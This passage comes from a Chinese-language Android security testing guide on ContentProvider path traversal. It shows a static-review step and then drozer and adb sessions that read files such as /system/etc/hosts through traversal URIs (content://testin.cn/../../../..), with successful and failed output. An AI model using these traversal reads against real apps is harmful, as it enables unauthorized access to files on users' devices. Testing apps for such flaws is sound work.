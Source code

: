     6. openTypedAssetFile (Uri uri, String mimeTypeFilter, Bundle opts, CancellationSignal signal)
6. 确认方法中是否规避了` ../ `如果未规避那么风险成立
    - 通过查看方法中的逻辑，并且跟踪非基本数据类型的.方法调用。

#### 3.2.2、动态检测
```terminal
dz> run scanner.provider.traversal -a  com.example.tom.forbroadcast
Scanning com.example.tom.forbroadcast...
Not Vulnerable:
  content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider
  content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider/

Vulnerable Providers: /**脆弱的providers*/
  content://testin.cn/
  content://authorities
  content://testin.cn
  content://authorities/
```

drozer读取效果(成功)
```terminal
dz> run app.provider.read content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
testin.cn  ^_^
```

drozer读取效果(失败)
```terminal
dz> run app.provider.read content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
No files supported by provider at content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
```

#### 3.2.3、adb 文件读取效果
adb shell content    

```terminal
usage: adb shell content read --uri <URI> [--user <USER_ID>]
Example:
# cat default ringtone to a file, then pull to host
adb shell 'content read --uri content://settings/system/ringtone > /mnt/sdcard/tmp.ogg' && adb pull /mnt/sdcard/tmp.ogg
```

读取成功    

```terminal
C:\Users\Tom>adb shell content read --uri content://testin.cn/../../../../../system/etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

读取失败

```terminal
C:\Users\Tom>adb shell content read --uri content://testin.cn/../../../../../system/etc/hostsa
Error while accessing provider:testin.cn
java.io.FileNotFoundException: /../../../../../system/etc/hostsa
        at android.database.DatabaseUtils.readExceptionWithFileNotFoundExceptionFromParcel(DatabaseUtils.java:144)
        at android.content.ContentProviderProxy.openFile(ContentProviderNative.java:594)
        at com.android.commands.content.Content$ReadCommand.onExecute(Content.java:521)
        at com.android.commands.content.Content$Command.execute(Content.java:418)
        at com.android.commands.content.Content.main(Content.java:623)
        at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
        at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:251)
```
